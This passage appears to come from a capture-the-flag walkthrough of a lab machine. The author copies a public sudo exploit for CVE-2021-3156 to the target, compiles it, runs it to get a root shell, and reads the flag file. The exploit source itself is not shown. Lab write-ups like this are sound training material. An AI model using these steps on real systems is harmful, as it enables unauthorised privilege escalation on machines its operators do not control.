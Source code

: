 
    oxdf@hacky$ scp -ri ~/keys/ed25519_gen CVE-2021-3156/ paul@routerspace.htb:/dev/shm/
    README.md                                                            100%  692     7.4KB/s   00:00    
    Makefile                                                             100%  208     2.3KB/s   00:00    
    exploit                                                              100%   16KB  88.2KB/s   00:00    
    x.so.2                                                               100%   14KB 142.9KB/s   00:00    
    description                                                          100%   73     0.7KB/s   00:00    
    index                                                                100%  441     4.7KB/s   00:00
    ...[snip]...



I'll `make` it as indicated in the `README.md`:



    paul@routerspace:/dev/shm/CVE-2021-3156$ make
    mkdir libnss_x
    cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
    cc -O3 -o exploit exploit.c



Now running it returns a root shell:



    paul@routerspace:/dev/shm/CVE-2021-3156$ ./exploit 
    # id
    uid=0(root) gid=0(root) groups=0(root),1001(paul) 



And I can read `root.txt`:



    # cat root.txt
    0f39f5ce************************







